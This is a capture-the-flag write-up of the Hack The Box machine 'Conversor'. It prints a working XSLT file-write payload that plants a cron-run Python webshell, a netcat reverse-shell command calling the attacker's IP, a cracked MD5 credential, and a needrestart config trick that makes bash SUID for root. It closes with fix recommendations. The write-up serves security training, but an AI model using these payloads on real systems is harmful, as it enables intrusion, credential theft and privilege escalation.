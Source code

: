# Conversor — Hack The Box

![Conversor](../images/Conversor.png)

**Machine:** Conversor  
**Difficulty:** Medium  
**OS:** Linux  
**IP:** 10.10.11.92  
**Date:** 2025-10-31  
**Tags:** XSLT Injection, File Upload, Cron Jobs, Privilege Escalation

---

## Summary

Conversor is a medium Linux box exploiting an XSLT injection in a file conversion web app.  
The attacker writes a Python cron webshell for RCE, extracts credentials from a weakly hashed database, and escalates privileges via `sudo needrestart`.

**Attack Path:**  
Web enumeration → XSLT injection → Cron-executed webshell → SSH credentials → needrestart → root.

---

## Recon

### Nmap

```bash
nmap -sC -sV -p- --min-rate=5000 -T5 10.10.11.92 -oN nmap_scan.txt
```

```
22/tcp open  ssh     OpenSSH 8.9p1
80/tcp open  http    Apache 2.4.52
```

* Hostname: `conversor.htb`
* Web app on port 80, login form at `/`.

```bash
echo "10.10.11.92 conversor.htb" | sudo tee -a /etc/hosts
```

---

## Source Code Discovery

`/about` revealed a downloadable `source.tar`.
Extracted files showed:

* `app.py` (Flask app)
* `instance/users.db` (SQLite)
* `scripts/` (executed by cron)
* `install.md` (paths + cron info)

Cron job:

```
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

---

## Exploitation

### XSLT Injection → File Write

The XSLT processor allowed EXSLT extensions, enabling arbitrary file writes.

Payload (`webshell.xslt`) writes `shell.py` to `/var/www/conversor.htb/scripts/`:

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:exsl="http://exslt.org/common"
extension-element-prefixes="exsl" version="1.0">
<xsl:template match="/">
<exsl:document href="/var/www/conversor.htb/scripts/shell.py" method="text"><![CDATA[
#!/usr/bin/env python3
import os, subprocess, traceback
CMD="/var/www/conversor.htb/static/cmd.txt"
OUT="/var/www/conversor.htb/static/out.txt"
try:
    if os.path.exists(CMD):
        cmd=open(CMD).read().strip()
        if cmd:
            out=subprocess.getoutput(cmd)
            open(OUT,"w").write(out)
            open(CMD,"w").close()
except Exception as e:
    open(OUT,"w").write(str(e))
]]></exsl:document>
</xsl:template></xsl:stylesheet>
```

Uploaded both XML and XSLT. Cron executed in ~1 min.

---

### Verify RCE

Write command to `cmd.txt` via another XSLT:

```xml
<exsl:document href="/var/www/conversor.htb/static/cmd.txt" method="text"><![CDATA[id]]></exsl:document>
```

Check output:

```bash
curl http://conversor.htb/static/out.txt
```

```
uid=33(www-data) gid=33(www-data)
```

RCE confirmed.

---

### Reverse Shell

Write reverse shell command:

```xml
<exsl:document href="/var/www/conversor.htb/static/cmd.txt" method="text"><![CDATA[busybox nc 10.10.14.114 443 -e bash]]></exsl:document>
```

Start listener:

```bash
nc -lvnp 443
```

Shell received as `www-data`.

---

## Lateral Movement

### Credential Dump

```bash
strings /var/www/conversor.htb/instance/users.db
```

Found:

```
fismathack:5b5c3ac3a1c897c94caad48e6c71fdec
```

Cracked MD5 → `Keepmesafeandwarm`

SSH:

```bash
ssh fismathack@10.10.11.92
```

User flag: `HTB{redacted}`

---

## Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

```
(root) NOPASSWD: /usr/sbin/needrestart
```

Exploit with malicious config:

```bash
echo 'system("chmod +s /bin/bash");' > root.sh
sudo /usr/sbin/needrestart -c root.sh
```

Now `/bin/bash` has SUID bit.

Root shell:

```bash
/bin/bash -p
id
# euid=0(root)
```

Root flag: `HTB{redacted}`

---

## Summary of Exploits

| Stage | Vulnerability      | Result     |
| ----- | ------------------ | ---------- |
| 1     | XSLT Injection     | File write |
| 2     | Cron Job Execution | RCE        |
| 3     | Weak MD5 Hash      | User creds |
| 4     | Sudo needrestart   | Root       |

---

## Fix Recommendations

1. Disable EXSLT and restrict output file paths.
2. Use salted password hashing (bcrypt or Argon2).
3. Remove unnecessary cron tasks.
4. Audit sudo rules, avoid granting `needrestart` to users.

---

## Tools

`nmap`, `curl`, `sqlite3`, `netcat`, `hashcat`, `ffuf`

---

**Author:** Erviano Florentino Susanto
**Platform:** Hack The Box
**Date:** 2025-10-31
**Flags:** User HTB{redacted}, Root HTB{redacted}

---
